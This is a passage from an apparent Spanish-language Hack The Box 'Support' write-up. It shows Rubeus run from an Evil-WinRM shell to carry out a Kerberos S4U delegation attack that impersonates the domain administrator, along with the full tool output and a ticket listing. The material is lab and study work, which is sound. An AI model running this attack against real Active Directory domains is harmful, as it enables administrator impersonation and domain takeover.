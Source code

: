 * Aplicamos el **ataque S4U** que nos va a generar un ticket para convertirnos en el **usuario Administrador**:
```batch
*Evil-WinRM* PS C:\Users\support\Documents> .\Rubeus.exe s4u /user:SERVICEA$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/
*
  v2.2.0
*
[*] Action: S4U
[*] Using rc4_hmac hash: 32ED87BDB5FDC5E9CBA88547376818D4
[*] Building AS-REQ (w/ preauth) for: 'support.htb\SERVICEA$'
[*] Using domain controller: ::1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):
...
...
...
[*] Action: S4U
[*] Building S4U2self request for: 'SERVICEA$@SUPPORT.HTB'
[*] Using domain controller: dc.support.htb (::1)
[*] Sending S4U2self request to ::1:88
[+] S4U2self success!
[*] Got a TGS for 'administrator' to 'SERVICEA$@SUPPORT.HTB'
[*] base64(ticket.kirbi):
...
...
[*] Impersonating user 'administrator' to target SPN 'cifs/dc.support.htb'
[*] Building S4U2proxy request for service: 'cifs/dc.support.htb'
[*] Using domain controller: dc.support.htb (::1)
[*] Sending S4U2proxy request to domain controller ::1:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc.support.htb':
...
...
[+] Ticket successfully imported!
```
Al final aparece el ticket creado en **base64**.

* Podemos listar los tickets creados:
```batch
*Evil-WinRM* PS C:\Users\support\Documents> .\Rubeus.exe klist
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/
*
  v2.2.0
*
Action: List Kerberos Tickets (Current User)
[*] Current LUID    : 0x80d455
  UserName                 : support
  Domain                   : SUPPORT
  LogonId                  : 0x80d455
  UserSID                  : S-1-5-21-1677581083-3380853377-188903654-1105
  AuthenticationPackage    : NTLM
  LogonType                : Network
  LogonTime                : 9/28/2024 8:28:01 PM
```